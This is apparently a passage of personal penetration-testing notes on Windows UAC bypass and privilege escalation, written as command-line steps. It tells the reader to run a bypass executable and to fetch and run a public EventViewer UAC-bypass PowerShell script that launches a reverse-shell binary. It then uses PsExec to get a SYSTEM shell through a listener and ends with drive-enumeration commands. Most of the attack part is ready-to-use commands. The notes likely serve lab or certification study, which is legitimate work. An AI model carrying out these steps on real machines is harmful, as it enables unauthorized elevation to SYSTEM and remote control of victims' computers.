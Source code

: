 Set up listener, transfer to target, run bypass64.exe file.

```command prompt - target
bypass64.exe
```

**When you run whoami, you will still be the same user, however,  when you run whoami /priv, you have much more privileges! **

Download PsExec and transfer to target.  Set up listener:

[[rlwrap]]

Run following command for system shell.
	- MAY NEED TO USE FULL PATH TO EXPLOIT FILE!
```command prompt - target
PsExec64.exe -i -accepteula -d -s C:\Users\alice\AppData\Local\Temp\Tools\reverse64.exe
```

#### Method 2
```command prompt - kali
wget https://raw.githubusercontent.com/CsEnox/EventViewer-UACBypass/main/Invoke-EventViewer.ps1
```

```powershell - target
Import-Module .\Invoke-EventViewer.ps1
```

[[rlwrap]]

```powershell - target
Invoke-EventViewer %TEMP%\Tools\reverse64.exe
```

**When you run whoami, you will still be the same user, however,  when you run whoami /priv, you have much more privileges! **

Download PsExec and transfer to target.  Set up listener:

[[rlwrap]]

Run following command for system shell.
	- MAY NEED TO USE FULL PATH TO EXPLOIT FILE!
```command prompt - target
PsExec64.exe -i -accepteula -d -s %TEMP%\Tools\reverse64.exe
```


---

#### Harddrirves

```command prompt - windows
mountvol
```

```command prompt - windows
wmic logicaldisk get caption
```

```command prompt - windows
wmic logicaldisk get caption,description,providername
```
